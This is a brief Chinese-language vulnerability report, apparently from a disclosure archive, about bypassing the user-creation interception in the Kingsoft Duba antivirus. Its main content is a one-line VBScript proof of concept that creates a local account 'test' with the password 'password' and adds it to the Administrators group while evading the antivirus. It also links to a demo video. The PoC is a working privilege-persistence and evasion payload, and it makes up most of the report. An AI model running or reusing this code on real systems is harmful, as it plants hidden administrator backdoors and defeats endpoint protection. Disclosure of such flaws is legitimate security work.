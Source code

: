 ```yaml
---
title: "Bypass金山毒霸"
id: zhfly3457
---
```


# 金山毒霸添加用拦截功能绕过

# 相关厂商

金山毒霸

# 漏洞类型

拦截绕过

# 自评危害等级

高危

# 详细介绍：

金山毒霸添加用拦截功能绕过

POC如下：

```
set wsnetwork=CreateObject("WSCRIPT.NETWORK"):os="WinNT://"&wsnetwork.ComputerName:Set ob=GetObject(os):Set oe=GetObject(os&"/Administrators,group"):Set od=ob.Create("user","test"):od.SetPassword "password":od.SetInfo:Set of=GetObject(os&"/test",user):oe.add os&"/test" 
```

![image](../img/3dda38be07fd0b4b1b6f13482d14390b.png)

测试视频演示下载地址：https://pan.baidu.com/s/1YsRrLVeALZH0vudbCn6WPQ 0sec
链接如挂，请群内反馈,谢谢